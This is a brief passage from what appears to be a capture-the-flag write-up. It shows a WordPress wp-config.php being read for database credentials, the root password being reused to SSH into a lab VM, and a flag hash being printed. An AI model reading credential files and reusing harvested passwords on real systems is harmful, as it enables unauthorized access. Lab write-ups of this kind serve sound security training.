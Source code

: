 {% highlight bash %}
cat wp-config.php
{% endhighlight %}

{% highlight php %}
/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'rootpassword!');
{% endhighlight %}

Now to test: 

{% highlight bash %}
ssh root@vm
pass: rootpassword!
{% endhighlight %}

And we're in, do a quick ls and see the flag:

8e3f9ec016e3598c5eec11fd3d73f6fb
